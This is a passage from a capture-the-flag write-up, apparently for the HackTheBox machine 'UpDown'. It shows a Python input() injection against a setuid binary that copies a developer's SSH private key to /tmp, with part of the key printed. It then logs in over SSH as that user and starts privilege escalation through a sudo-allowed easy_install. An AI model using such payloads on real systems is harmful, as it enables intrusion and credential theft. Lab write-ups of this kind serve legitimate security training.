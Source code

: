 Payload 
```python
__import__("os").system("cat /home/developer/.ssh/id_rsa > /tmp/key")
```
Executing the setuid binary with our payload
```bash
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__("os").system("cat /home/developer/.ssh/id_rsa > /tmp/key")

www-data@updown:/home/developer/dev$ head /tmp/key 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
S1qi9PFoNvzkt7Uy3++6xDd95ugAdtuRL7qzA03xSNkqnt2HgjKAPOr6ctIvMDph8JeBF2
F9Sy4XrtfCP76+WpzmxT7utvGD0N1AY3+EGRpOb7q59X0pcPRnIUnxu2sN+vIXjfGvqiAY
ozOB5DeX8rb2bkii6S3Q1tM1VUDoW7cCRbnBMglm2FXEJU9lEv9Py2D4BavFvoUqtT8aCo
srrKvTpAQkPrvfioShtIpo95Gfyx6Bj2MKJ6QuhiJK+O2zYm0z2ujjCXuM3V4Jb0I1Ud+q
a+QtxTsNQVpcIuct06xTfVXeEtPThaLI5KkXElx+TgwR0633jwRpfx1eVgLCxxYk5CapHu
u0nhUpICU1FXr6tV2uE1LIb5TJrCIx479Elbc1MPrGCksQVV8EesI7kk5A2SrnNMxLe2ck
IsQHQHxIcivCCIzB4R9FbOKdSKyZTHeZzjPwnU+FAAAFiHnDXHF5w1xxAAAAB3NzaC1yc2
www-data@updown:/home/developer/dev$
```
We can now see it’ll be executed by the input() function and it copy the developers id_rsa to /tmp

## SSH as developer

Copy the key to our local machine and connected through ssh

```bash
developer@updown:~$ id && whoami
uid=1002(developer) gid=1002(developer) groups=1002(developer)
developer
developer@updown:~$ ls
dev  user.txt
developer@updown:~$ 
```
## Privilege escalation

It is the most easiast part of this machine. Just check to see what we can run as sudo. We can run easy_install as root.

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```
